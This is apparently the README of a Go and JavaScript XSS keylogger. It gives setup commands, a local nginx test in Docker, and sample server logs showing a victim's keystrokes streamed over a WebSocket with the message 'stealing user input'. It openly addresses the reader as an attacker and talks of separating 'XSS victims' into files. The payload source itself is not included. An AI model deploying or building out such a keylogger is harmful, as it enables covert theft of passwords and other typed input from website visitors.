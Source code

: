 # Keylogger

## How it Works

* Deliver index.html over a weberver
* Store logger.js with the go executable, or with the same directory as main.go.
* Run command:

```
go run main.go --listen-address=127.0.0.1:8080 --ws-addr=127.0.0.1:8080
```

* Go to your webserver, you should see a connection in the console once you hit index.html
* This is a simple test, add logic around sessions and save to txt file to help separate XSS victims.

## Local Test Your Payload
* Setup an nginx webserver

```
docker run --rm -it --name xss-keylogger-nginx -p 80:80 nginx
```

* Obtain your container ID and copy over index.html and logger.js

```
$ docker container ls
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS                               NAMES
8c382fc36e43   nginx     "/docker-entrypoint.…"   5 seconds ago   Up 4 seconds   0.0.0.0:80->80/tcp, :::80->80/tcp   xss-keylogger-nginx

$ docker cp logger.js f248fa529335:/usr/share/nginx/html/logger.js
Successfully copied 2.56kB to f248fa529335:/usr/share/nginx/html/logger.js

$ docker cp index.html f248fa529335:/usr/share/nginx/html/index.html
Successfully copied 2.05kB to f248fa529335:/usr/share/nginx/html/index.html
```

* Execute your golang program, wait for connections

```
$ CGO_ENABLED=0 go build -o keylogger

$ ./keylogger --listen-address 127.0.0.1:8080 --ws-addr 127.0.0.1:8080
```

## Example usage:

```
2024/02/22 21:20:57 [*] Server starting
2024/02/22 21:21:02 [*] /k.js hit!
2024/02/22 21:21:02 [*] WebSocket created, stealing user input.
Connection from 192.168.1.10:37100

From 192.168.1.10:37100: 
From 192.168.1.10:37100: Y
From 192.168.1.10:37100: A
From 192.168.1.10:37100: 
From 192.168.1.10:37100: B
From 192.168.1.10:37100: O
From 192.168.1.10:37100: I
From 192.168.1.10:37100: 
```


## Next steps

* Add Sessions and write to individual files
